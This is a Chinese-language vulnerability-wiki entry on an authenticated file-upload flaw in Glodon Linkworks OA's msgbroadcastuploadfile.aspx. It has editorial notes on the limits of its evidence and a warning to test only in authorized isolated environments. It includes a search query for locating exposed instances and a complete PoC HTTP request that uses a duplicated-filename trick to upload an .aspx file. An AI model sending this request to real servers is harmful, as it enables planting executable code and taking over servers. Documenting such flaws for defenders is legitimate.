



# 广联达Linkworks OA msgbroadcastuploadfile后台上传

## 条目说明

- 对象与具体问题：广联达Linkworks OA；msgbroadcastuploadfile后台上传
- 版本、配置及部署条件：无版本
- 认证与权限前提：文称管理员，但Cookie仅样式值无认证证据
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart双filename无name需按解析行为解释，不可普通标准包理解
- 文件仅Test不证ASPX执行，输出文件名xxx-test与上传1不一致
- 缺修复build及真正会话字段

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

### 漏洞影响

广联达 Linkworks

### 网络测绘

```
web.body="/Services/Identification/"
```

### 漏洞复现

登陆页面


GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下



通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```http
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```



```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
